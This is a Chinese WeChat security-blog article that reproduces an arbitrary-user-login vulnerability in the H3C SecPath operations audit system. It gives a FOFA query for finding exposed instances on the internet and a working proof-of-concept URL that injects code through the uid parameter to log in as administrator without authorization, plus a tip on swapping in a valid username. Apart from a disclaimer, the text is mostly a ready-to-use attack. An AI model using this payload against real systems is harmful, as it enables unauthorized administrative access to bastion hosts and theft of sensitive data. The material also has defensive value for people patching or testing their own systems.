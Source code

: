 #  H3C SecPath运维审计系统 任意用户登录漏洞

融云安全-sm  [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞复现 13 个

#漏洞库 25 个

**免责声明**

本公众号仅用于技术交流与学习，利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号只是知识的搬运工，取之于民用之于民。

 **0x01  阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞描述**

H3C
SecPath运维审计系统是基于用户现阶段面临的运维难题提出的一款运维风险管控产品。借助身份认证、权限控制、操作审计等功能，从操作层面解决了企业现存的IT内控与管理问题，使运维操作管理进入安全与便利相结合的阶段，帮助客户提高整体运维安全水平，使运维操作管理过程变得更加简单、安全、有效。H3C
SecPath运维审计系统存在任意用户登录漏洞，攻击者通过漏洞可以未授权登录系统管理员，导致敏感信息被窃取等问题。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143638.png)

 **0x03 漏洞复现**

 **fofa** **：** "H3C SecPath运维审计系统"

1.执行POC可未授权登录系统

  * 

    
    
    https://{{Hostname}}/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143639.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143640.png)

2.看到Poc是不是有点眼熟，这不是和某治堡垒机任意用户登录一样吗？不得不说很多产品某些功能代码重复率很高啊，深入挖掘发现出现下面错误说明漏洞存在，只是登录用户名错误，怎么绕过你懂得

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143641.png)

3.修改login参数值为合法用户名即可未授权进入系统，xray漏洞扫描脚本星球自提

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

